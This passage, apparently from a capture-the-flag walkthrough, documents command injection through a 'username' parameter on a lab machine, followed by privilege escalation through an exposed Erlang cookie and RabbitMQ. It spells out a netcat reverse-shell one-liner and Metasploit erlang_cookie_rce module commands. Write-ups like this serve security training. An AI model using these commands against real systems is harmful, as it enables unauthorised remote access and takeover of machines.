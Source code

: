 Based on the response, we could attempt to establish a connection to our local machine : 

![Capture d'écran 2025-03-01 171801](https://github.com/user-attachments/assets/6c028540-302d-4d66-955f-a407f5304e92)

![Capture d'écran 2025-03-01 172902](https://github.com/user-attachments/assets/c9c72462-58bf-4cec-a5ad-b87ac5d8bf7f)

Now that we've confirmed the ability to inject code into the `username` parameter, we can attempt to obtain a **reverse shell** using [revshells.com](https://www.revshells.com/) : 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> <port> >/tmp/f
```

![Capture d'écran 2025-03-01 183502](https://github.com/user-attachments/assets/31fa1803-eeb3-4455-9e17-90d61a224dcc)

![Capture d'écran 2025-03-01 183901](https://github.com/user-attachments/assets/53361c66-506e-4e0d-a0ba-db15bd9b15bb)

And we get a reverse shell ! 

Now that we have access, we can retrieve the **user** flag : 

![Capture d'écran 2025-03-01 183950](https://github.com/user-attachments/assets/91aad717-b8bc-4bbb-88db-b6125de53590)

![Capture d'écran 2025-03-01 230612](https://github.com/user-attachments/assets/35f8b759-46b6-4e94-abd7-33fb940e7d87)

---
### Privilege escalation

While enumerating, we find an **Erlang Cookie** file at `/etc/bli/rabbitmq/.erlang.cookie`  :

![Capture d'écran 2025-03-01 195642](https://github.com/user-attachments/assets/1e1ab808-fa6a-4143-9490-ec8685c4d55b)

We use **Metasploit** to exploit this for **Remote Code Execution (RCE)** :

```
use exploit/multi/misc/erlang_cookie_rce
set COOKIE <erlang_cookie>
set RHOSTS <target_ip>
set LHOST <local_ip>
set LPORT <local_port>
run
```

![Capture d'écran 2025-03-01 201646](https://github.com/user-attachments/assets/7be207c9-05da-4163-9953-80f544830cfd)

So now we can use  `rabbitmqctl` command but first, we need to edit the permission file of `.erlang.cookie` : 

![Capture d'écran 2025-03-01 202558](https://github.com/user-attachments/assets/6607760f-bd6d-4846-accc-e249dfd2d249)
![Capture d'écran 2025-03-01 202756](https://github.com/user-attachments/assets/c68a4840-d4cc-4fa4-addb-c30dd1987104)

We now have permission to list all RabbitMQ users :

![Capture d'écran 2025-03-01 202939](https://github.com/user-attachments/assets/1ea8996c-fdca-4a76-8ac4-ce0595a9ad34)
